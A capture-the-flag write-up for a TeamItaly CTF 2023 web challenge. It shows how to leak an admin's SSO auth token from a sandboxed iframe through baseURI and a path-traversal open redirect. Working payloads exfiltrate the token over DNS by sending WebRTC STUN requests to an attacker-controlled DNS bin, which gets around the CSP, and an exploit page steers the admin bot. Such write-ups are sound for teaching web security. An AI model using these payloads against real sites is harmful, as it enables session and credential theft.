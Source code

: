 # TeamItaly CTF 2023

## [web] ᴬnother ᵤseless ᴬpplication (2 solves)

## Overview

The application is a useless website, the only features available are:  
- log in and register through an external sso  
- set your profile description as HTML in a sandboxed iframe  
- check the descriptions of public users

The flag is in the profile description of the admin.

The profile description is sandboxed inside an iframe like this:  
```html  
<iframe sandbox="allow-scripts" srcdoc="<%= profile.desc %>"></iframe>  
```

Moreover, inside the iframe, the following CSP applies (inherited from the
parent document):

```http  
Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline'
https://cdn.jsdelivr.net/; style-src 'unsafe-inline'
https://cdn.jsdelivr.net/; img-src data: ; connect-src 'self'  
```

### Location leak

Even if we are in a sandboxed iframe, and we can't access directly the
location of the parent document, we can still leak the full URL of the parent
document accessing the *baseURI* variable like this:

```html  
<svg onload="console.log(baseURI)">  
```

*baseURI* also includes the URL fragment, if we are able to change the callback of the sso to our exploit, we could leak a valid authentication code of the admin.

### Redirect

The callback URL is checked by the following code:

```js  
host.startsWith(`${CHALL_URL}/cb`)  
```

We can manipulate the callback value to force a redirection to our profile
like this:

```  
http://sso.aua.challs.teamitaly.eu/login?callback=http://site.aua.challs.teamitaly.eu/cb/../profile?user=aaaaa  
```

When the admin bot visits this link, it will redirect to the profile of user
*aaaaa* with a valid authentication token in the fragment.

### Leak

Now we are able to access the auth token of the admin, we only need a way to
leak it to us.

Because of the presence of the CSP, we can't simply use a webhook to leak
information.

However, we can still use DNS exfiltration abusing the RTC protocol, using
this payload:

```js  
(async()=>{p=new RTCPeerConnection({iceServers:[{urls:
"stun:LEAK.dnsbin"}]});p.createDataChannel('');p.setLocalDescription(await
p.createOffer())})()  
```

### Exploit

#### Profile payload

First of all, we need to register a user and set its profile to a payload
similar to this, leaking the fragment of the parent URL and leaking it to the
DNS bin.

```html  
<script>  
function asciitoHex(ascii){  
res = ''  
for (var n = 0; n < ascii.length; n ++) {  
 res += Number(ascii.charCodeAt(n)).toString(16);

}return res;}  
</script>  
<svg onload="(async()=>{p=new RTCPeerConnection({iceServers:[{urls:
'stun:'+asciitoHex(baseURI.split('#')[1])+'.your.dns.bin.test'}]});p.createDataChannel('');p.setLocalDescription(await
p.createOffer())})()">  
```

#### Exploit server

First of all we need the bot to log into the real application (as it's only
logged in the sso).

Then, we can redirect the bot to the `/login` endpoint of the sso with the
callback to the profile of our user.

```html  
<script>  
 // login the admin in the app  
 w = window.open('http://site.aua.challs.teamitaly.eu/login')

 explurl =
'http://sso.aua.challs.teamitaly.eu/login?callback=http://site.aua.challs.teamitaly.eu/cb/../profile?user=aaaaa'  
  
 setTimeout(()=>{location = explurl}, 1000)  
</script>  
```

After the attack, we will leak the authentication token in the DNS bin, we can
use the token to access the app as the admin and retrieve the flag.

Original writeup
(https://github.com/TeamItaly/TeamItalyCTF-2023/blob/master/AnotherUselessApplication/README.md).